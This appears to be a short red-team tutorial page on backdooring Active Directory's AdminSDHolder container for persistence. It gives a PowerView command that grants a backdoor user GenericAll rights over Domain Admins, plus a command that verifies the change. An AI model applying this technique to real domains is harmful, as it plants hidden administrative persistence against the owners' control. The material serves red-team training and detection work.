 # Backdooring AdminSDHolder for Persistence

## AdminSDHolder

AdminSDHolder is a special AD container with security permissions that is used as a template on other protected AD accounts and groups to prevent accidental and unintended modifications of high privileged accounts and groups like `Domain Admins`. 

Once you have agained Domain Admin privileges, AdminSDHolder can be abused by backdooring it by adding your backdoor user and giving it `GenericAll` privileges, which in turn allows the backdoored user to obtain DA rights whenever.

## Execution

Backdooring the AdminSDHolder container by adding an ACL that provides user `spotless` with `GenericAll` rights for `Domain Admins` group:

```csharp
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-20-21-53.png)

This is actually what happens to the container:

![](../../.gitbook/assets/screenshot-from-2018-12-20-20-24-32.png)

Confirming that the user spotless has now GenericAll privileges against `Domain Admins` group:

```csharp
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}
```

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

